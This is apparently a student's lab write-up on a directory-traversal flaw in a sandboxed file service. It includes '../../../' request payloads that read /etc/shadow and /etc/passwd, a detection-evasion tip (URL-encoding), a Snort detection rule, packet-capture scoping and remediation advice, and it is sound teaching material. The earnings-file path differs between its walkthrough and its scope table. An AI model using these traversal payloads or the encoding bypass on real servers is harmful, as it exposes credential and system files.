




# Directory Traversal: Exploit, Detect, and Scope a Breach

**Author:** Chioma Shaba
**Environment:** CodePath Snort NIDS Lab (Dockerized, self-contained)
**Skills demonstrated:** Offensive security (exploitation) · Detection engineering (Snort IDS) · Breach scoping (packet analysis) · Remediation

> ⚠️ This was performed entirely inside a provided lab container. No real systems were touched. All "confidential" data shown is fictional lab content.

---

## TL;DR (plain-language summary)

A company ran an old file service that handed back *any* file a client asked for, without ever checking whether the request was allowed. That one missing check is a **directory-traversal vulnerability** (CWE-22).

I ran the full security loop on it:

1. **Attacked it** — used the `../` trick to climb out of the service's folder and read root-only system files my own account was denied.
2. **Detected it** — wrote a Snort rule that alarms whenever the traversal pattern crosses the wire; it fired on every attack request.
3. **Scoped it** — read the packet capture to prove exactly which files the attacker reached.
4. **Fixed it** — recommended one change to stop the bug at the source and one to limit the damage if it ever shipped again.

The headline finding: the service publicly claimed earnings were **"up 900%"** — the confidential file it leaked showed they were actually **down 16%**.

---

## Why this matters

Directory traversal is one of the most common real-world web and network vulnerabilities — it appears on the industry's standard list of most dangerous software weaknesses and has been behind numerous real breaches. Any application that lets a user request a file (download an invoice, open a document, view an image) can hide this bug.

This project covers **both sides** of a security operation: the red-team exploitation *and* the blue-team detection, scoping, and remediation — the exact attack-to-detection workflow a SOC analyst or detection engineer runs in practice.

---

## The vulnerability, explained simply

Think of the service as a library clerk with one rule: *only fetch books from the public shelf.* But this clerk never checks. So if you ask for "the book three rooms back, in the locked office," he just... goes and gets it.

Technically: the service builds the file path by gluing the client's request directly onto its root folder (`ROOT + requested_path`) and never validates the result. The sequence `../` means "go up one directory." The service's folder is three levels deep, so **three `../`** climbs all the way to the filesystem root `/` — and from there any absolute path can be requested.

The reason it's dangerous: the service runs as **root**, so it can read files that my own low-privilege account cannot. The attack tricks the privileged service into reading protected files *on the attacker's behalf*.

---

## Walkthrough

### 1. Confirm the access gap

As myself, I'm denied the sensitive file directly:

```bash
cat /etc/shadow
# -> Permission denied
```

### 2. Exploit the traversal

By routing the request through the service (which runs as root), the same file comes back:

```bash
node attack.js "http://localhost:8888/../../../etc/os-release"
node attack.js "http://localhost:8888/../../../etc/shadow"
node attack.js "http://localhost:8888/../../../opt/wishful-thinking/real_earnings.txt"
```

**Recovered data:**

| Target | Result |
|---|---|
| Host OS (`/etc/os-release`) | `PRETTY_NAME="Ubuntu 22.04.5 LTS"` |
| `/etc/shadow` (root line) | `root:*:20675:0:99999:7:::` |
| Confidential earnings | Public claim: "up 900%" — **Actual: down 16%** |

The service returned `/etc/shadow` with HTTP `200 OK` even though my own account got `Permission denied` on it seconds earlier. That contrast *is* the impact.

### 3. Detect it (Snort rule)

I added a detection rule to `local.rules` that alerts on the traversal signature:

```
alert tcp any any -> any 8888 (msg:"Traversal dotdot request"; flow:to_server,established; content:"../"; sid:1000020; rev:1;)
```

Plain English: *watch TCP traffic to the service on port 8888, and alert whenever the bytes `../` appear in a request.*

Run against the captured attack:

```bash
snort -c /usr/local/etc/snort/snort.lua -r /opt/snort-lab/project/server.pcapng -A alert_fast
```

**Result — fired 4 times, once per traversal request:**

```
[1:1000020:1] "Traversal dotdot request" {TCP} 127.0.0.1:59668 -> 127.0.0.1:8888
[1:1000020:1] "Traversal dotdot request" {TCP} 127.0.0.1:59670 -> 127.0.0.1:8888
[1:1000020:1] "Traversal dotdot request" {TCP} 127.0.0.1:59686 -> 127.0.0.1:8888
[1:1000020:1] "Traversal dotdot request" {TCP} 127.0.0.1:59702 -> 127.0.0.1:8888
```

### 4. Scope the breach (packet analysis)

Reading the capture directly to list what was actually served:

```bash
tcpdump -qns 0 -A -r /opt/snort-lab/project/server.pcapng | grep -E "GET |HTTP/1.1 [0-9]"
```

**Blast radius — 7 requests, 6 served, 1 missed; 4 reached outside the folder:**

| Request | Status | Location |
|---|---|---|
| `/general/reports.txt` | 200 OK | Inside (allowed) |
| `/general/budget.txt` | 200 OK | Inside (allowed) |
| `/../../../etc/os-release` | 200 OK | **Outside — breach** |
| `/../../../etc/shadow` | 200 OK | **Outside — breach** |
| `/../../../opt/northwind/real_earnings.txt` | 200 OK | **Outside — breach** |
| `/../../../etc/passwd` | 200 OK | **Outside — breach** |
| `/nonexistent.txt` | 404 | Missed |

The **4 outside-folder hits map exactly to the 4 Snort alerts** — detection and scope confirm each other.

### 5. Remediation

- **Source fix (stops it at the source):** The service must canonicalize the resolved path (collapse all `../`) and reject any request that lands outside its intended root folder. In short — stop trusting client-supplied paths; validate them before opening any file.
- **Defense in depth (limits the damage):** The service ran as **root**, which is why the traversal could read root-only files. Running it as a low-privilege, non-root user would contain the blast radius even if the bug shipped — a successful traversal still couldn't read files that user isn't permitted to open.

---

## Key takeaways (what I learned)

- **A missing input check is a full system compromise.** The whole breach traces to one unvalidated path.
- **Privilege matters as much as the bug.** Running as root turned a file-read bug into a credential-file leak. Least privilege would have contained it.
- **One signature isn't enough.** My rule matches the literal bytes `../`. The same attack sent URL-encoded (`%2e%2e%2f`) slips right past it while still working — detection has to normalize/decode traffic before matching, and rely on layered defenses, not a single rule. Signature detection is an arms race.
- **Detection and scoping reinforce each other.** The 4 alerts and the 4 outside-folder hits were the same 4 events, proven two different ways.

---

## Tools used

`Snort` (IDS / detection rules) · `tcpdump` (packet analysis) · `Node.js` (attack client) · Linux CLI · Docker · `/etc/shadow`, `/etc/passwd` concepts · CWE-22 (Path Traversal)

---

## Demo
### 1. Successful Directory Traversal


### 2. Confidential Earnings Leaked


### 3. Snort Rule Fires 4 Times


### 4. Breach Scope (Packet Analysis)

